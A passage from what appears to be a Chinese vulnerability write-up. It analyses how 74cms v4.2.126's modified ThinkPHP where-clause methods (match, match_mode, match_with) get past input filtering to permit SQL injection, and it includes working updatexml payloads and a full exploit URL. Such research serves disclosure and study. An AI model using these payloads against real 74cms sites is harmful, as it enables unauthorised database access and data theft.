 这个函数的主要功能为3个1， 确定数据类型2， 对数据进行循环取值3， 调用think\_filter 函数进行过滤think\_filter函数分析

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId31.png)

    例如：
        没有使用think_filter 函数时
    goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

    使用了think_filter函数时
      goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
      注意：使用了think_filter函数时 in后面是有空格的也就是说返回值是
    goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
    而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。

接着我们直接打开文件：74cms\\upload\\ThinkPHP\\Library\\Think\\Db\\Driver.class.php

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId32.png)

    think_filter函数与上图两者对比一下，是否发现多点了东西？
    是的没错了。
    74cms 修改了tp底层添加了
    3个新方法：
    match
      match_mode
      match_with

    也就是说这3个方法我们是可以绕过 I 函数的过滤的

    接着查看：parseWhereItem( 方法

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId33.png)

使用的是直接字符串拼接的方式入库，故判断此漏洞可利用.注意了上图我们可控制的点是 \$str 而 \$str 给双引号包含！！！！！！！最开始的时候，记得我说过么，系统默认I 会过滤 "双引号"
而导致此注入不可用，那么就需要找一处不经过I函数或是说不过滤双引号的地方来构造漏洞。这里我们重新修改一下例子：打开文件：
74cms\\upload\\Application\\Home\\Controller\\IndexController.class.php

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId34.png)

    输入url: http://74cms.test/index.php?m=Home&c=index&a=index&uid[0]=match&uid[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId35.png)

这样的话，这个注入就是可用的了。理解了这个以后，我们也算是挖到了74cms独有的框架漏洞。接下来整理一下会发生注入的情况M()-\>where(\$test)-\>xx那么只要 where中任意参数可控，并不会过滤 双引号即可！然后就没什么技术含量了使用ide进行搜索测试即可确定漏洞，经过一顿搜索以后

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId36.png)

前端发现一共有四处，也就是说这个框架漏洞，可以利用的地方只有四处。后端注入，除了挖src，不然我都认为他是没有什么用。所以后端能不能利用我也不知道。我没去看
: )

0x04 74cms独有框架漏洞第一处
----------------------------
